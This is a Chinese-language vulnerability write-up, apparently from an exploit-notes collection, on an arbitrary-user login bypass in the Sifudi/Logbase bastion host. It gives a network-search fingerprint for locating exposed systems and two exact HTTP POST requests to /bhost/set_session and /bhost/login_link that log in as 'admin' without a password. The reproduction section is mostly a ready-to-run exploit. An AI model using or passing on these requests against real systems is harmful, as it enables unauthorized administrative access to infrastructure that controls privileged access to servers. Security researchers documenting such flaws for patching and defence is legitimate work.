

# 思福迪堡垒机 任意用户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

```
思福迪堡垒机
```

## 网络测绘

```
"Logbase运维安全管理系统"
```

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```plain
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```


获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**


带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```plain
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```


利用后即可登录后台

